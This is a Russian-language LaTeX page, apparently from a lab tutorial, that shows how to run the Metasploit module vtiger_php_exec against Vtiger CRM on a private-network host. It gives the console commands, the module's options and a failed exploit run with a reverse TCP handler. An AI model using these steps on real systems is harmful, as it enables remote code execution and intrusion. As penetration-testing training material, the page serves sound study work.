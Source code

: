 \documentclass[10pt,a4paper]{report}
\begin{document}
\subsubsection{Команды по работе с эксплоитом}
Попробуем применить какой-либо эксплойт на удаленный хост. Например, эксплоит 
\begin{verbatim}
exploit/multi/http/vtiger_php_exec
\end{verbatim}
Эксплоиту дано следующее определение.\\
Злоумышленник может загрузить PHP скрипт и выполнить произвольный PHP код удаленно. Этот модуль был протестирован против Vtiger CRM v5.4.0 и v5.3.0. \\
Чтобы использовать эксплоит необходимо указать команду \textit{use}.
\begin{verbatim}
msf > use exploit/multi/http/vtiger_php_exec
\end{verbatim}
Далее командой \textit{show options} просмотрим опции эксплоита и установим адрес хоста командой \textit{set RHOST 192.168.0.103}.
\begin{verbatim}
msf exploit(vtiger_php_exec) > show options

Module options (exploit/multi/http/vtiger_php_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            no        Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   TARGETURI  /vtigercrm/      yes       Base vTiger CRM directory path
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(vtiger_php_exec) > set RHOST 192.168.0.103
RHOST => 192.168.0.103
\end{verbatim}
Выполним эксплоит командой \textit{exploit}. Видим, что эксплоит был выполнен, но неуспешно.
\begin{verbatim}
msf exploit(vtiger_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.0.102:4444 
[*] Exploit completed, but no session was created.
\end{verbatim}
Чтобы выйти из эксплоита используем команду \textit{back}.
\begin{verbatim}
msf exploit(vtiger_php_exec) > back
\end{verbatim}
\end{document}

